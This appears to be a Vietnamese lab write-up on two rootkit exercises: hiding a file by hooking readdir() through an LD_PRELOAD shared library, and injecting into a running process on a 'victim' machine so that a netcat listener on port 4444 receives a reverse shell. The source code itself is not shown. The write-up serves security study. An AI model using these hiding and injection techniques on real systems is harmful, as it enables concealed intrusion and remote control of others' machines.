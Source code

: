 # Task 1
Ban đầu sử dụng `ls` ta thấy số block là 336

> Số block được tính bằng lệnh stat() trên từng file, sau đó cộng lại. Giá trị này được tính dựa trên dung lượng thực sự mà file chiếm trên đĩa

![image](https://hackmd.io/_uploads/SkywvaVrgg.png)

Thực hiện ẩn file
```
┌──(kali㉿kali)-[~/Desktop/Task_1]
└─$ gcc -Wall -fPIC -shared -o task_1.so task_1.c -ldl

┌──(kali㉿kali)-[~/Task_1]
└─$export LD_PRELOAD="/home/kali/Desktop/task_1.so"
```
Khi ẩn file bằng cách hook `readdir()`, `ls` không thấy file đó nữa, nên không gọi `stat()`, và không cộng block của file đó vào tổng. Ta sẽ thấy total khi dùng `ls` giảm còn 332

![image](https://hackmd.io/_uploads/Hy8ob64rex.png)

Hoàn thành task 1
```
┌──(kali㉿kali)-[~/Desktop/Task_1]
└─$ unset LD_PRELOAD
```
# Task 2
Tại máy nạn nhân, tạo 1 process để thực hiện inject
```
┌──(root㉿kali)-[/home/kali/Desktop/Week_5/Task_2]
└─# sleep 20 &                                                                                          
[1] 191582
```

![image](https://hackmd.io/_uploads/Sk-rmfrrlx.png)

Nạn nhân thực hiện chạy file

```
┌──(root㉿kali)-[/home/kali/Desktop/Week_5/Task_2]
└─# ./task_2 <pid>
```

Tại máy tấn công kết nối cổng nghe
```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
=
```

Khi process này kết thúc thì shell sẽ xuất hiện

![image](https://hackmd.io/_uploads/SJSuVMSSeg.png)
